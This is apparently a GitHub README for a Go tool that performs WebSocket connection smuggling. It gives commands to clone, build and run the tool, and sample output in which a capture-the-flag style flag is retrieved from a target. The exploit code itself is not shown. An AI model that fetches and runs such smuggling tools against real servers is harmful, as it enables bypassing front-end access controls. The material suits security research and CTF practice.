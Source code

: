 # websocket-connection-smuggling-go
websocket-connection-smuggling write in go

```
$ git clone https://github.com/hahwul/websocket-connection-smuggling-go
$ cd websocket-connection-smuggling-go
$ go build
```

```
$ go run smugws.go
2019/10/30 18:20:09 HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 49
Date: Wed, 30 Oct 2019 09:20:09 GMT
{"flag": "In 50VI37 rUS5I4 vODK@ DRiNKs YOu!!!"}
gth: 119
Date: Wed, 30 Oct 2019 09:20:09 GMT
    �0{"pingInterval":25000,"pingTimeout":60000,"upgrades":["websocket"],"sid":"cff0caad2bbc48d48ce6ffd3ed444ff4"}�40
```

[![asciicast](https://asciinema.org/a/278206.svg)](https://asciinema.org/a/278206)
